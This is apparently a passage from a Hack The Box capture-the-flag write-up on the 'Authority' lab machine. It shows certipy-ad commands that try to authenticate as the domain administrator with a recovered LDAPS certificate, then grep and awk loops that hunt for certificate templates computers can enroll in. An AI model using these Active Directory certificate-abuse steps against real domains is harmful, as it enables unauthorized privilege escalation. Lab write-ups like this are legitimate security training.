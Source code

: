 
Okay, Can we use that LDAPs certificate we've found ?

```sh
certipy-ad auth \
	-pfx 'LDAPs.pfx' \
	-username 'administrator' \
	-domain 'authority.authority.htb' \
	-dc-ip 10.129.12.250 \
	-debug
```

	Also, not really! damn son... okay what else can we do ? 

Let's try expending our initial search


```sh
grep -E '(Allow Enroll\s+HTB\\Domain Computers)' templates.txt
```

Maybe, if there's  templates for computers which are vulnerable right ? ? right ?

```sh
tps=($(grep  -B80 -E '(Allow Enroll\s+HTB\\Domain Computers)' templates.txt | \
	grep -E '(TemplatePropCommonName)' | \
	awk '{print $3}' ))

for tp in ${tps[@]}; do
	echo "Template: ${tp}"
	grep -m1 -A50 -E "TemplatePropCommonName\s=\s${tp}" templates.txt | 
		grep -A3 'TemplatePropEKUs'
	echo
done
```

![](images/pcs.png)
